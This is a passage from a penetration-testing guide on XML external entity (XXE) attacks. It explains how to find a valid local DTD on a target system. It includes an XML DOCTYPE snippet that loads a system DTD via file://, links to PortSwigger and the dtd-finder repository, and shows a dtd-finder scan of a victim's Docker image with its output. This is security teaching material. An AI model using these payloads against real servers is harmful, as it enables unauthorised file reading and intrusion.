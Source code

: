![](<../images/image (625).png>)

As this technique uses an **internal DTD you need to find a valid one first**. You could do this **installing** the same **OS / Software** the server is using and **searching some default DTDs**, or **grabbing a list** of **default DTDs** inside systems and **check** if any of them exists:

```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```

For more information check [https://portswigger.net/web-security/xxe/blind](https://portswigger.net/web-security/xxe/blind)

### Finding DTDs inside the system

In the following awesome github repo you can find **paths of DTDs that can be present in the system**:

{% embed url="https://github.com/GoSecure/dtd-finder/tree/master/list" %}

Moreover, if you have the **Docker image of the victim system**, you can use the tool of the same repo to **scan** the **image** and **find** the path of **DTDs** present inside the system. Read the [Readme of the github](https://github.com/GoSecure/dtd-finder) to learn how.

```bash
java -jar dtd-finder-1.2-SNAPSHOT-all.jar /tmp/dadocker.tar

Scanning TAR file /tmp/dadocker.tar

 [=] Found a DTD: /tomcat/lib/jsp-api.jar!/jakarta/servlet/jsp/resources/jspxml.dtd
Testing 0 entities : []

 [=] Found a DTD: /tomcat/lib/servlet-api.jar!/jakarta/servlet/resources/XMLSchema.dtd
Testing 0 entities : []
```
